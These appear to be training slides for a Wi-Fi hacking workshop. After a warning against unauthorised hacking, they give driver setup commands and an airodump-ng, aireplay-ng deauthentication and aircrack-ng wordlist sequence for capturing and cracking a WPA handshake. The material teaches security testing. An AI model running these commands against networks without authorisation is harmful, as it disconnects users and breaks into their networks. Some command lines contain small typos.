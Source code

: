 Wi\-Fi Hacking Workshop

![](img/WifiHackingWorkshop0.png)

Do not hack into any networks without prior authorisation

Wireless AP Setup

Configure the Wireless Access point

![](img/WifiHackingWorkshop1.png)

[https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

sudo apt\-get update

sudo apt\-get install linux\-headers\-$\(uname \-r\)

Git clone [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

Cd rtl8812au

make

sudo insmod 8812au\.ko

sudo cp 8812au\.ko /lib/modules/$\(uname  r\)/kernel/drivers/net/wireless

sudo depmod

sudo apt\-get install build\-essential dkms

sudo make dkms\_install

echo 8192eu | sudo tee \-a /etc/modules

Add the Wireless adapter to VirtualBox

![](img/WifiHackingWorkshop2.png)

Check for conflicting processes

Start the wireless adapter in monitor mode

![](img/WifiHackingWorkshop3.png)

Discovering BSSID

![](img/WifiHackingWorkshop4.png)

<span style="color:#000000">s</span>  <span style="color:#000000">udo airodump\-ng \-c 11 wlan0</span>

Discovering devices

![](img/WifiHackingWorkshop5.png)

sudo airodump\-ng \-c 11 \-\-bssid B0\-95\-75\-5C\-3B\-94 \-w psk wlan0

sudo aireplay\-ng \-0 10 \-a B0:95:75:5C:3B:94 \-c 0C:8D:CA:A6:93:8D wlan0

![](img/WifiHackingWorkshop6.png)

Cracking Password

aircrack\-ng \-w passwordlist\.txt psk\-02\.cap

![](img/WifiHackingWorkshop7.png)

